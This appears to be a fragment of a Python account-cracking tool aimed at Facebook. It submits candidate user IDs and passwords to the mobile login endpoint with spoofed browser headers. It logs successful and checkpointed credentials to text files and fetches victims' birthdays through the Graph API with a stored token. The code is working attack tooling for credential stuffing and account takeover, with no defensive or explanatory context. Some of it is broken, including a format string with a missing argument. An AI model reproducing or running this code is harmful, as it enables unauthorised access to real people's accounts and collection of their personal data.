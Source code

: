             headers_ = {"Host":"m.facebook.com","upgrade-insecure-requests":"1","user-agent":ua_xiaomi,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
            p = ses.get('https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
            dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
            _headers = {"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
            po = ses.post("https://m.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
            if 'c_user' in ses.cookies.get_dict():
                IMTIAZ_AKING('\r\033[1;92m[[SUCCESSFULL-SUBHAN]  %s | %s      '%(user,pw))
                wrt = '%s - %s - %s' % (user,pw)
                ok.append(wrt)
                open('OK.txt','a').write('%s\n' % wrt)
                break
                continue
            elif 'checkpoint' in ses.cookies.get_dict():
                try:
                    token = IMTIAZ('token.txt').read()
                    cp_ttl = Prof_Aking('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    IMTIAZ_AKING('\r\033[1;91m[SUBHAN-CHECKPOINT] %s | %s  %s %s %s%s      ' % (user,pw,day,month,year,tahun(user)))
                    wrt = '%s - %s - %s %s %s'%(user,pw,day,month,year)
                    cp.append(wrt)
                    open('CP.txt','a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day   = ''
                    year  = ''
                except:
                    pass
                IMTIAZ_AKING('\r\033[1;91m[SUBHAN-CHECKPOINT] %s | %s%s      ' % (user,pw,tahun(user)))
                wrt = '%s - %s%s'%(user,pw,tahun(user))
                cp.append(wrt)
                open('CP.txt','a').write('%s\n' % wrt)
                break
        loop += 1
    def __pler__(self):
        yan = input('\n[•] Choose : ')
        if yan == '':
            IMTIAZ_AKING('\nJangan Kosong')
            exit()
        elif yan in ('1', '01'):
            IMTIAZ_AKING('\n[•] Result OK saved to IDREESOK.txt')
            IMTIAZ_AKING('[•] Result CP saved to IDREESCP.txt')
            IMTIAZ_AKING('\n\tCrack Processing...\n')